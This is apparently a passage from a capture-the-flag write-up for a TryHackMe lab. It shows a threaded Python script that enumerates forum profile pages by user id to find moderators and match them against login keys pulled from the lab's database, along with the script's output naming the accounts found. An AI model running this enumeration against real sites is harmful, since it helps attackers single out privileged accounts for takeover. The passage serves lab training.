 ```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

class Enumerater:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, uid):
        requestResult = requests.get(f'{self.__url}{uid}')
        soup = BeautifulSoup(requestResult.text, 'html.parser')

        if 'Moderator' in soup.get_text():
            username = soup.title.string[23:]
            print(f'[+] Found moderator: {username}')

            # login_key.txt is found in MySQL modManagerv2 database
            with open('login_key.txt', 'r') as file:
                for line in file:
                    if username in line:
                        print(f'[++] Moderator {username} has login_key! Uid: {uid}')

        elif 'The member you specified is either invalid or doesn\'t exist.' in soup.get_text():
            exit()

def main():
    url = 'http://exit-denied.thm/member.php?action=profile&uid='
    enumerater = Enumerater(url)

    for uid in range(1, 100):
        thread = Thread(target=enumerater.sendRequest, args=(uid,))
        thread.start()

        # You can adjust how fast of each thread. 0.02 is recommended.
        sleep(0.02)

if __name__ == "__main__":
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.26|14:52:15(HKT)]
└> python3 enum_moderator.py
[+] Found moderator: BlackCat
[++] Moderator BlackCat has login_key! Uid: 7
[+] Found moderator: Jackwon
[+] Found moderator: PalacerKing
[++] Moderator PalacerKing has login_key! Uid: 10
[+] Found moderator: ArnoldBagger
[++] Moderator ArnoldBagger has login_key! Uid: 11
[+] Found moderator: DotHaxer
[+] Found moderator: DrBert
[+] Found moderator: BlueMan
```
